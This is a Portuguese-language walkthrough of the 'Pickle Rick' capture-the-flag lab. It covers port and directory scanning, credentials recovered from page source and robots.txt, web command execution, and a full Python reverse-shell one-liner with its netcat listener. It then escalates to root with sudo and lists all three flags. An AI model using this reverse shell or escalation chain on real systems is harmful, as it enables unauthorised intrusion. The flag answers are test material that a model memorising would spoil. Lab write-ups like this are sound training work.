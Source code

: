 CTF PICLE RICK
 
Ao inicar o desafio dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrei 2 portas(22,80)

Ao entrar no servidor apache vizualizei o codigo fonte e encontrei uma mensagem informando o username 

    R1ckRul3s

Apos isso dei um gosbuster para encontrar diretorios desse apache

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

    /robots.txt
    /assets
    /index.html
    /login.php
    /portal.php

Ao procurar esses diretorios no robots.txt tinha uma palavra que poderia ser uma senha 

    Wubbalubbadubdub

No login.php coloquei o username(R1ckRul3s) e o password(Wubbalubbadubdub) assim acessando o portal.php 

O comando "ls" nao podia ser usado entao era possivel usar o "less"

Assim...

    less clue.txt

    Look around the file system for the other ingredient.

Depois...

    less Sup3rS3cretPick13Ingred.txt

    mr. meeseek hair

Encontrando a primeira flag do CTF

Agora teremos que entrar no sistema como foi dito na dica, para entrar no sistema usamos a falha RCE que permite voce executar um codigo malicioso no back-end da aplicacao... ao buscar python no command panel vimos que tinha um python3 instalado

    which python3

Assim era so criar no netcat e pegar o script 

Script 

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP(tryhackme)",1333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

NetCat

    nc -lvnp 1333

Ao conseguir entrar no sistema fui procurar arquivos no sistema ao encontrar no /home

    cd /home
    cd rick

    cat "second ingredients"
    1 jerry tear 

Encontrando a segunda flag era so ir atras da ultima..
Ao ver as permissoes root do usuario vi que nosso usuario podia executar tudo como root

    sudo -l

Assim...

    sudo bash -i
    cd /root
    cat 3rd.txt
    fleeb juice 

E conseguindo todas as flags..

FLAGS

    Flag 1: mr. meeseek hair
    Flag 2: 1 jerry tear
    Flag 3: fleeb juice